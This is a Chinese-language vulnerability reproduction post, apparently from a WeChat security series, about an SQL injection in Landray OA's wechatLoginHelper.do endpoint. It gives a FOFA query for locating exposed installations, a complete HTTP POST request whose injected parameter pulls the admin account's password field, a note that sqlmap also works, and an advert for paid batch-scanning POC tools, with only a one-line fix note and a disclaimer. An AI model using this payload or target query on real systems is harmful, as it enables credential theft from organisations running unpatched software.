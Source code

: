 #  蓝凌OA wechatLoginHelper存在SQL注入漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-28 22:58  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 蓝凌OA wechatLoginHelper简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
蓝凌OA  
## 2.漏洞描述  
  
蓝凌是国内知名的大平台OA服务商和国内领先的知识管理解决方案提供商，是专业从事组织的知识化咨询、软件研发、实施、技术服务的国家级高新技术企业。蓝凌OA存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
蓝凌OA  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz31bx3OA9Mzz1NXrCGOjH9ezEs7DLPicGpW6WHwdiad0DpNHpZOLc5MIaA/640?wx_fmt=jpeg&from=appmsg "null")  
  
蓝凌OA wechatLoginHelper存在SQL注入漏洞  
## 4.fofa查询语句  
  
app="Landray-OA系统"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/third/wechat/wechatLoginHelper.do  
  
漏洞数据包：  
```
POST /third/wechat/wechatLoginHelper.do HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 147

method=edit&uid=1'and+(SELECT+fdPassword%2B'----'+FROM+com.landray.kmss.sys.organization.model.SysOrgPerson+where+fdLoginName='admin')=1+and+'1'='1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz3KIWHIzewzYa8SbvfUlnKthlCE8VFrQawcM7PF1ucdTXTbICibp21J6g/640?wx_fmt=jpeg&from=appmsg "null")  
  
使用SQLmap也能跑出来  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz3NSOMlem7ATxPobnfiaeS1Q15euLWYxTibJNyeYV3cWtzyl06LRm0P0VA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz3CMV5BDgOdG377H71QgYGqPRudFE3G4ZqBzOqW1phFpShpZXQDflBsA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz31uLJyk7acWMKYLiaySqb5l1BkBjKIRh8W5uakkG8MIDaJKsG3ErZfWA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz3GS9sXNsq2SwDtWY5uXZAXYoLQ7LCpQOXtJ4DmCKu18NjkyjWe9lnQA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz3WlkdaOLYy6G3kLMhGLC5SXOwnEicYrhlD47Gqico331nNA3bJXia8KVTQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bNMBMUwdQF65oe58hmeyz3Swtq7Q8ez04Ijbgd2GyCAl57ymfiaXH26AbShPxe5OrlaegWC4FtzQg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新：http://www.landray.com.cn  
## 8.往期回顾  
  
[九思OA软件user_list_3g.jsp存在SQL注入漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485429&idx=1&sn=339c4d6dbbdb0a82224605c11e82e56c&chksm=974b8af2a03c03e41d8e7c639183eb9298a16add3abec2eea9332c84be6dfb51850e1626c62d&scene=21#wechat_redirect)  
  
  
[鸿运(通天星CMSV6车载)主动安全监控云平台存在敏感信息泄露漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485417&idx=1&sn=f3384fa94c4e2e90a466a34564687be7&chksm=974b8aeea03c03f86f47744973a28ec835977d8385ccaaaefdf35e9a1e264e9c23ccf47e3cf0&scene=21#wechat_redirect)  
  
  
  
  
